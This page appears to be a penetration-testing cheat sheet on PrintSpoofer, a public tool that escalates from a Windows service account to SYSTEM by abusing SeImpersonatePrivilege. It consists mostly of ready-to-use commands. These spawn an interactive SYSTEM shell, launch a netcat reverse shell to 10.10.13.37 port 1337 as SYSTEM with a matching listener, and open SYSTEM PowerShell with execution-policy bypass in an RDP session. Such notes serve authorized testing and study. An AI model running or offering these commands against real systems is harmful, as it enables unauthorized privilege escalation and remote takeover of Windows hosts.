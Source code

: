 # Printspoofer / SEImpersonate

{% embed url="https://github.com/itm4n/PrintSpoofer" %}

#### From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

{% embed url="https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/" %}

### Spawn a SYSTEM process and interact with it

If you have an interactive shell, you can create a new SYSTEM process in your current console.

```
PrintSpoofer.exe -i -c cmd
```

### Spawn a SYSTEM process and exit

If you can execute commands but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

Use case: WinRM, WebShell, wmiexec.py, smbexec.py, etc.

```
PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```

Netcat listener:

```
nc.exe -l -p 1337
```

### Spawn a SYSTEM process on a desktop

If you are logged on locally or via RDP (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command qwinsta and then specify this value with the option -d.

Use case: Terminal Session (RDP), VDI

```
qwinsta

# check your session ID

PrintSpoofer.exe -d [rdp session id number] -c "powershell -ep bypass"

PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
```
